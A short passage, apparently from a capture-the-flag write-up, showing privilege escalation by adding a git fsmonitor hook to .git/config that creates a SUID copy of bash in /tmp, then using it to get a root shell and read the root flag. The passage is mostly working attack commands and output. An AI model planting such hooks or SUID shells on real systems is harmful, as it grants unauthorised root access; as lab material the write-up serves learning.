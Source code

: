We are a go, change to a simple bash SUID maker and get root.

```bash
# Add to .git/config
fsmonitor = "cp /bin/bash /tmp/bash && chmod u+s /tmp/bash"

dev01@opensource:~$ ls /tmp
bash         systemd-private-46f86691781f43539d1d445c40d06bd1-systemd-resolved.service-mRGDu2
fsmonitor    systemd-private-46f86691781f43539d1d445c40d06bd1-systemd-timesyncd.service-qWaslc
snap.docker  vmware-root_907-4021784429
dev01@opensource:~$ /tmp/bash -p
bash-4.4# cat /root/root.txt
a037e12667015-------------------
```


